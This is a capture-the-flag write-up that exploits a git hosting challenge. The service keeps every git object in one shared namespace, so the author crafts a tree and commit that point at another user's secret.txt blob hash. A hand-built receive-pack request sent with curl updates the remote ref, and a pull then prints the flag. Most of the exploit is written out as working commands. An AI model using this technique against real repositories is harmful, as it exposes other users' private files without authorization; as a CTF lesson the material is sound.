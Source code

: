 The service allows you to create a git repo, pull from it, and push to it. Examining the source, it appears to keep all of the git objects under the same namespace, and only keeps track of named refs (e.g. HEAD) on a repo-by-repo basis.

The image shows someone pushing a commit including a file named secret.txt with an object-hash of 4f9486f4498bc353b1e9a3ac790993eea4229f2e. If we can convince the server to accept a push refering to this object-hash, when we perform a pull later, we should be able to get its contents!

Git makes it easy to create the necessary commit/tree objects to make this happen (Git Internals is a great reference for this). From a cloned repo:

$ git update-index --add --cacheinfo 100644 4f9486f4498bc353b1e9a3ac790993eea4229f2e secret.txt
$ TREE=$(git write-tree --missing-ok)
$ COMMIT=$(echo "add secret.txt" | git commit-tree $TREE)
Now, our local git repo contains two new objects: $TREE is a git tree object that refers to the secret.txt uploaded by the person in the photo, and $COMMIT is a git commit object that refers to $TREE. Now, we just need to push these new objects to the remote repo, and update refs/heads/master to point to $COMMIT. Usually, we would just do a git push to do this, but git push refuses to push objects that refer to objects that we don’t have cached locally.

Instead, we will go behind git’s back and perform the push HTTP request manually. Luckily, the push protocol is pretty simple: an HTTP POST with a payload of a list of length-prefixed strings containing instructions to update remote refs, terminated by an entry of length 0, followed by a “git pack” blob containing a set of serialized, compressed git objects. First, let’s make that git pack, containing just our commit and tree objects:

$ (echo $TREE; echo $COMMIT) | git pack-objects --stdout > pack
Next, create the prefix that points the remote HEAD at our new commit, and fire off the request:

$ echo -n "00670000000000000000000000000000000000000000 $COMMIT refs/heads/master0000" > update-ref
$ cat update-ref pack > payload
$ curl --data-binary @payload -H "Content-type: application/x-git-receive-pack-request" $URL/git-receive-pack -i
Now, the remote repo should contain the secret.txt we’re looking for. Do a git pull and retrieve the flag!

$ git pull
$ cat secret.txt
SIGINT_preimage_is_easy_8547262aeafbc450
